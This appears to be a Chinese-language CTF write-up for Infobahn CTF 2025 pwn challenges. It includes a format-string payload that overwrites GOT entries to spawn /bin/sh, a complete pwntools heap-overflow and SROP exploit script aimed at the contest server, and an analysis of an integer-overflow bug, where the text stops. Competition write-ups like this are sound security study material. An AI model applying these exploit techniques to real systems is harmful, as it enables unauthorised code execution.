# 2025-11-08-Infobahn-CTF-2025

‍

```py
https://ctftime.org/event/2883
```

‍

## pwnset

‍

整体看了一下 chal ,感觉没什么问题，输入的 username 和 age 传到 了 log 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-414h] BYREF
  int stat_loc; // [rsp+10h] [rbp-410h] BYREF
  __pid_t pid; // [rsp+14h] [rbp-40Ch]
  __int64 num_age; // [rsp+18h] [rbp-408h] BYREF
  char str_age[16]; // [rsp+20h] [rbp-400h] BYREF
  char username[1000]; // [rsp+30h] [rbp-3F0h] BYREF
  unsigned __int64 v10; // [rsp+418h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  init(argc, argv, envp);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("Select your options:");
        puts("1. register username");
        puts("2. get age");
        puts("3. exit");
        printf("> ");
        if ( (unsigned int)__isoc99_scanf("%d", &v4) != 1 )
          return 0;
        if ( v4 != 1 )
          break;
        printf("Enter your username: ");
        if ( (unsigned int)__isoc99_scanf("%999s", username) != 1 )
          return 0;
        printf("Enter your age: ");
        if ( (unsigned int)__isoc99_scanf("%15s", str_age) != 1 )
          return 0;
        if ( (unsigned int)parse_age(str_age, &num_age) )
        {
          puts("Invalid age");
        }
        else
        {
          if ( (unsigned int)age_exists(num_age) )
            puts("A user already has this age");
          pid = fork();
          if ( pid == -1 )
          {
            perror("fork");
            return 1;
          }
          if ( !pid )
          {
            execl("./log", "log", "-u", username, "-a", str_age, 0);
            perror("execl");
            _exit(1);
          }
          waitpid(pid, &stat_loc, 0);
          add_user(username, num_age);
        }
      }
      if ( v4 != 2 )
        break;
      printf("Enter username to look up: ");
      if ( (unsigned int)__isoc99_scanf("%999s", username) != 1 )
        return 0;
      if ( (unsigned int)find_age_by_username(username, (size_t *)&num_age) )
        printf("No age found for %s\n", username);
      else
        printf("%s is %lld years old\n", username, num_age);
    }
    if ( v4 == 3 )
      break;
    puts("Invalid choice");
  }
  return 0;
}
```

分析一下log 程序，果然问题出在这， syslog 第二个参数是`fmt`, 这里也是存在格式化字符串漏洞，

一次非 stack 上格式化字符串漏洞



这里首先想到的就是修改 `free@got`​ 为 `system`​，但是由于`free@got` 高4字节是空的，不好操作





另一种方法

仔细观察 可以发现貌似只有 `strtouq` 的地址除了前2个字节都是和 system地址一样的，这样的话可以利用

​`hn`​ 修改 `strtoull@got`​ 为 system,然后 修改`free@got`​ 为 `strtoull@plt`



> 由于 前 12 位是已知的，只需要 爆破 后4位 （1/16概率）即可 （不知道为啥一开始想到 爆破。）

但是还有种方法 通过 `%*xx$lu`​ 取 `__libc_start_main`​ 的地址， 然后  + 一个 `offadd`​ (offadd是 `__libc_start_main`​ 和 `system`) 的偏移），就可以成功得到 准确的 system地址的 前2个字节，

然后 写入 `strtoull@got`, 





‍

```py
offadd = 0x2e4c5
target2 = 0x401204
pay = '\';/bin/sh;#'.ljust(0x20-13,';')
pay += f'%{0x10000 - 0x20 + (target2&0xffff)}c%{5+0x11}$hn'
pay += f'%*{5+0xA3}$lu%{0x10000 - (target2&0xffff) + offadd}c%{5+0x89}$hn'
pay += 'A' * (8 - (len(pay)%8))
pay += '\x58\x34\x40'
age = 0x4034a8

cmd = f'./log -u {pay} -a {age}'
```

‍



‍

‍

## Book Manager V2

FPC 啥？



CREATEBOOK 存在堆溢出



可以堆溢出覆盖下面的一个指针，个人猜测这可能是类似  glibc `tcachebins` 的一个指针，尝试覆盖为 程序的bss



不出所料，果然申请到了，后面的步骤就简单了，申请到 `BOOKPTRS` 然后控制 堆指针就可以任意读 任意写了


```py
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'book-managerv2.challs.infobahnc.tf 1337'.replace(' ',':')
binary = './chall'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'),ssl=True)
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(arch='amd64', log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
#libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
import socks
context.proxy = (socks.SOCKS5, '192.168.64.1', 10808)
gdbscript = '''
b *0x401211
b *0x4019DF
b *0x0401300
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))
io = start([])


def add(title,author):
    ru(': ')
    sl('1')
    ru(': ')
    sl(title)
    ru(': ')
    sl(author)

def show():
    ru(': ')
    sl('2')

def edit(idx,title,author='a'):
    ru(': ')
    sl('3')
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl(title)
    ru(': ')
    sl(author)

def rm(idx):
    ru(': ')
    sl('4')
    ru(': ')
    sl(str(idx))

#pay = flat({
#},filler=b'\x00')

#00:0000│     0x7dc0e52e3040 ◂— '11111111111111111111111111111111AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
#... ↓     3 skipped
#04:0020│     0x7dc0e52e3060 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
#... ↓     3 skipped
#pwndbg> 
#08:0040│     0x7dc0e52e3080 ◂— 'AAAAAAAAAAAAAAAA'
#09:0048│     0x7dc0e52e3088 ◂— 'AAAAAAAA'
#0a:0050│     0x7dc0e52e3090 ◂— 0
#0b:0058│     0x7dc0e52e3098 ◂— 0x98061
#0c:0060│     0x7dc0e52e30a0 —▸ 0x7dc0e52e30f8 ◂— 0xf8061
#0d:0068│     0x7dc0e52e30a8 ◂— 0
pay  = b'A' * 0x30
pay += p64(0) + p64(0x98061)
pay += p64(0x47E540-0x10)
add('1'*0x30,pay)
#add('2'*0x30,'B'*0x30)

add('1'*0x30,'A'*0x30)
#pause()
pay = p64(0x464040) * 3
#gdb.attach(io,gdbscript=gdbscript)
add(pay,'C')
show()
ru('0: "')
stack = uu64(r(6))
lss('stack')
pay = p64(stack-0x40) * 2
edit(2,pay)


syscall = 0x4021C8
rax = 0x0000000000413ef3 # pop rax ; ret

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack -0x40+0x98
sigframe.rsi = 0
sigframe.rbx = u64(b'/bin/sh\x00')
sigframe.rdx = 0
sigframe.rsp = 0x464000
sigframe.rip = syscall


pay  = p64(rax) + p64(0xf)
pay += p64(syscall)
pay += bytes(sigframe)
edit(0,pay)

itr()
```

‍

‍

## pwn a brainrot

‍

```py
import fmt
import fs
import libc
import strings

[u32] user_inventory = []

map<string,int> brainrot_map = {
    'Meowl': 1,
    'Ballerina Cappuccina': 10,
    'John Pork': 100,
    'Job Job Job Sahur': 1000,
    'Odin Din Din Dun': 10000,
    'Orcalero Orcala': 100000,
    'Chimpanzini Bananini': 1000000,
    'Los 67': 67676767,
}

var stdin = fs.stdin()

fn read_string(i64 max_size):string! {
    var buffer = vec_new<u8>(0, max_size)
    stdin.read(buffer)
    var result = buffer as string
    if result.find('\n') != -1 {
        result[result.find('\n')] = 0
    }
    return result
}

fn read_int():i64! {
    return libc.strtol(read_string(24).to_cstr(), 0, 0)
}

fn print_brainrots() {
    fmt.printf('\n=== Brainrots ===\n')
    for k, v in brainrot_map {
        fmt.printf('%s ($%d/s)\n', k, v)
    }
    fmt.printf('\n')
}

fn print_menu() {
    fmt.printf('\n=== Steal a Brainrot Terminal ===\n')
    fmt.printf('1. Steal a brainrot\n')
    fmt.printf('2. Check brainrot income\n')
    fmt.printf('3. Exit\n')
    fmt.printf('> ')
}

fn steal():void! {
    fmt.printf('Brainrot index: ')
    var idx = read_int()
    
    if idx < 0 || idx >= user_inventory.len() {
        fmt.printf('aaaaaaaaaaaaaaaaaaaaaaaa\n')
        return
    }
    
    print_brainrots()
    fmt.printf('Which brainrot are you stealing?: ')
    var to_steal = read_string(48)

    if !brainrot_map.contains(to_steal) {
        fmt.printf('u pmo sb icl\n')
        return
    }
    
    var income = brainrot_map[to_steal] as u32
    user_inventory[idx] += income
    fmt.printf('Added $%d/s of income to brainrot %d\n', income, idx)
}

fn check_income():void! {    
    fmt.printf('Brainrot index: ')
    var idx = read_int()
    
    if idx < 0 || idx >= user_inventory.len() {
        fmt.printf('nuh uh\n')
        return
    }
    
    fmt.printf('Brainrot %d is generating $%d/s\n', idx, user_inventory[idx])
}

fn main():void! {
    fmt.printf('=== Steal a Brainrot ===\n')
    fmt.printf('How large is your inventory? ')
    
    var count = read_int()
    
    if count < 0 {
        fmt.printf('r u fr...\n')
        return
    }

    if count == 0 {
        fmt.printf('js say u hate me gng 💔\n')
        return
    }
    
    user_inventory = vec_new<u32>(0, count)
    fmt.printf('Created room for %d brainrots\n', user_inventory.len())
    
    for true {
        print_menu()
        var choice = read_int()
        
        if choice == 1 {
            steal()
        } else if choice == 2 {
            check_income()
        } else if choice == 3 {
            fmt.printf('Goodbye\n')
            break
        } else {
            fmt.printf('What are you doing 😭😭😭\n')
        }
    }
}

```

‍

正常的情况下, 申请 一个 这么大的 `int[count]` 一个数据块

```py
user_inventory = vec_new<u32>(0, count)
```

  

​`steal()`​ 可以为 `int[count]` 某一个index 的数据 + 1 10 1000 ... 等等

```py
map<string,int> brainrot_map = {
    'Meowl': 1,
    'Ballerina Cappuccina': 10,
    'John Pork': 100,
    'Job Job Job Sahur': 1000,
    'Odin Din Din Dun': 10000,
    'Orcalero Orcala': 100000,
    'Chimpanzini Bananini': 1000000,
    'Los 67': 67676767,
}
```

​`check_income()`​ 就是查看 `int[count]`某一个index 的值

‍

看似上面的功能没有上面问题，实则问题出在 `vec_new<u32>(0, count)`




- rt_vec_new()，这里有个 * 4 的操作，利用整数溢出 可以使 申请的堆块变小



‍

调试看一下 输入构造的大 size 然后 * 4 后 变成 0x40



